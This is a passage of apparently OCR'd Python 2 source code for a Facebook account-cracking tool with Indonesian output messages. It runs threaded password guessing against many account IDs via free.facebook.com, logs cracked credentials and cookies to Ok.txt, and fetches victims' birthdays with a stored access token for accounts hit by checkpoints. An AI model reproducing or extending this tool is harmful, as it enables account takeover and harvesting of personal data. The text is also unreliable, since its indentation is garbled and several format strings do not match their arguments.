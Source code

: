 					menu()
					continue
				print('[•] Hasil Ok Tersimpan Di Ok.txt')
				print('[•] Hasil Cp Tersimpan Di Cp.txt')
				print('──────────────────────────────────────────')
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				print ('[Selesai]')
				break
	def pwlist(self):
		self.pw=raw_input("[?] Password : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
                        print('[•] Hasil Ok Tersimpan Di Ok.txt')
                        print('[•] Hasil Cp Tersimpan Di Cp.txt')
			print('──────────────────────────────────────────')
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			print ('[Selesai]')
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=free(fl.get("id"),
					i,"https://free.facebook.com")
				if log.get("status")=="success":
					print("\r\033[0;92m[Ok] "+(fl.get("id")+"\033[0;97m | \033[0;92m"+i+" "))
					self.ada.append("%s | %s"%(fl.get("id"),i))
					if fl.get("id") in open("Ok.txt").read():
						break
					else:
						open("Ok.txt","a+").write(
						"%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies"))))
					ko="%s | %s\n\n"%(fl.get("id"),i,gets_cookies(log.get("cookies")))
					break
				elif log.get("status")=="cp":
					try:
						toket=open('login.txt','r').read()
						q=requests.get("https://graph.facebook.com/"+fl.get("id")+"?access_token="+toket)
						w=json.loads(q.text)
						tl=w["birthday"]

					except (KeyError, IOError):
		                         tl = "*Private"
					except:pass
					print("\r\033[0;93m[Cp] "+(fl.get("id")+" \033[0;97m|\033[0;93m "+i+"\033[0;93m "+tl+" "))
					self.cp.append("%s | %s %s"%(fl.get("id"),i,tl))
					open("Cp.txt","a+").write(
						"%s | %s %s\n"%(fl.get("id"),i,tl))
					break
				else:continue
					